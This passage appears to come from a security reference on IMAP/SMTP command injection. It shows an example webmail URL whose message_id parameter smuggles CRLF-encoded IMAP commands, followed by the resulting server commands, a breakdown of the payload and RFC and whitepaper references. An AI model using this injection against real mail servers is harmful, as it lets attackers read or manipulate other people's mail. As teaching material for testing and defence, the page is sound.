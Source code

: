`http://<webmail>/read_email.php?message_id=4791 BODY[HEADER]%0d%0aV100 CAPABILITY%0d%0aV101 FETCH 4791`

Which would generate the following commands:

```sql
???? FETCH 4791 BODY[HEADER]
V100 CAPABILITY
V101 FETCH 4791 BODY[HEADER]
```

where:

```sql
Header = 4791 BODY[HEADER]
Body   = %0d%0aV100 CAPABILITY%0d%0a
Footer = V101 FETCH 4791
```

> List of IMAP/SMTP commands affected
>
> - Arbitrary IMAP/SMTP command injection

## References

### Whitepapers

- [RFC 0821 “Simple Mail Transfer Protocol"](https://tools.ietf.org/html/rfc821)
- [RFC 3501 “Internet Message Access Protocol - Version 4rev1”](https://tools.ietf.org/html/rfc3501)
- [Vicente Aguilera Díaz: “MX Injection: Capturing and Exploiting Hidden Mail Servers"](http://www.webappsec.org/projects/articles/121106.pdf)
